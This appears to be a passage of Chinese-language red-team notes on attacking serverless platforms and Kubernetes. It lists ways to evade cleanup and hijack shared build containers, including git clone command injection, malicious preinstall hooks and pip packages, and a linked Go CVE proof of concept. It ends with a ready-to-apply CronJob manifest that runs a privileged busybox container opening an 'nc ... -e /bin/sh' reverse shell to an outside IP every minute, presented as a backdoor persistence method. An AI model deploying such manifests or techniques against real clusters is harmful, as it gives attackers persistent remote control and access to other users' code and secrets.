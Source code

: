 很多时候Serverless周期结束后的策略是删除服务器文件，但是复用环境，可能会导致多个用户的应用会存在多个用户在不同时间段使用一个容器环境的情况，在安全性上是比较难得到保障的

 

比如：rm -rf /tmp，在tmp下建目录--help就能规避掉删除，但是生命周期一般都很短，重点关注

新的代码

代码内部配置

环境变量

秘钥、证书、密码信息等

### 攻击公用容器 / 镜像

在不同的 Serverless 架构中，都有多类持久化且公用的容器以实现程序调度、代码预编译、代码下载运行等逻辑。

这类容器一般拥有获取所有用户代码、配置和环境变量的能力，同时也比较容易出现 Docker IN Docker 或大权限 Service Account 的设计。

场景：

1.下载源代码时，使用 git clone 进行命令拼接，导致存在命令注入

2.在安装 node.js 依赖包时，构造特殊的 package.json 利用 preinstall 控制公用容器。

3.配置指向恶意第三方仓库的 pip requirements.txt，利用恶意 pip 包获取依赖打包容器的权限，同类的利用手法还可以作用于 nodejs、ruby 等语言的包管理器

4.因为容器镜像里的打了低版本 git、go 等程序，在执行 git clone,  git submodule update(CVE-2019-19604), go get 时所导致的命令执行，

CVE-2018-6574 的 POC 可参考：

 https://github.com/neargle/CVE-2018-6574-POC/blob/master/main.go

## CronJob 持久化

略显鸡肋

不过实际对抗过程中，虽然我们也会对恶意的 POD 和容器做一定的持久化，但是直接使用 CronJob 的概率却不高。在创建后门 POD 的时候，直接使用 restartPolicy: Always 就可以方便优雅的进行后门进程的重启和维持，所以对 CronJob 的需求反而没那么高。

例子：

```yaml
	apiVersion: batch/v1
	kind: CronJob
	metadata:
	  name: reverseshell
	spec:
	  schedule: "*/1 * * * *"
	  jobTemplate:
	    spec:
	      template:
	        spec:
	          restartPolicy: OnFailure
	          containers:
	            - name: reverse-shell
	              image: busybox
	              securityContext:
	                privileged: true
	              imagePullPolicy: IfNotPresent
	              args:
	              - /bin/sh
	              - -c
              - nc 172.16.144.131 2334 -e /bin/sh
```
